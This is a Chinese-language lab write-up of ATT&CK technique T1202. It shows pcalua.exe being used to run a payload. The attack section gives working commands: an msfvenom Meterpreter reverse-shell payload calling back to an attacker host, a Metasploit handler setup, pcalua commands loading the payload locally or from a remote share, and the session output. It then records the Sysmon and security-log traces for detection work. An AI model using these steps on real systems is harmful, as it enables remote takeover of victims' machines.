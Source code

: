 # T1202-win-基于白名单Pcalua执行payload

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

说明：Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：

C:\Windows\System32\pcalua.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=6666 -f exe > shell.exe
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 5555
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
Pcalua -m -a \\192.168.1.119\share\shell.exe #可远程加载

Pcalua -m -a C:\Users\12306Br0\Desktop\a\shell.exe #可本地加载
```

#### 反弹shell

```bash
Msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:6666
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 4 opened (192.168.126.146:6666 -> 192.168.126.149:49163) at 2020-04-19 00:12:39 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
meterpreter > getpid
Current pid: 2804
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.744
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ProcessId: 2148
Image: C:\Windows\System32\pcalua.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Program Compatibility Assistant
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName:
CommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=280038828C2412F3867DDB22E07759CB26F7D8EA
ParentProcessGuid: {bb1f7c32-26ca-5e9b-0000-00109cdf0d00}
ParentProcessId: 2724
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.775
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-0010621a0e00}
ProcessId: 2804
Image: C:\Users\12306Br0\Desktop\a\shell.exe
FileVersion: 2.2.14
Description: ApacheBench command line utility
Product: Apache HTTP Server
Company: Apache Software Foundation
OriginalFileName: ab.exe
CommandLine: "C:\Users\12306Br0\Desktop\a\shell.exe"
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=C11C194CA5D0570F1BC85BB012F145BAFC9A4D6C
ParentProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ParentProcessId: 2148
ParentImage: C:\Windows\System32\pcalua.exe
ParentCommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x864
新进程名: C:\Windows\System32\pcalua.exe

EventID：4688
进程信息:
新进程 ID: 0xaf4
新进程名: C:\Users\12306Br0\Desktop\a\shell.exe

EventID：5156
应用程序信息:
进程 ID: 2804
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\shell.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49163
目标地址: 192.168.126.146
目标端口: 6666
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件和/或生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

渗透测试-基于白名单执行payload--Pcalua

<https://blog.csdn.net/qq_17204441/article/details/89881795>
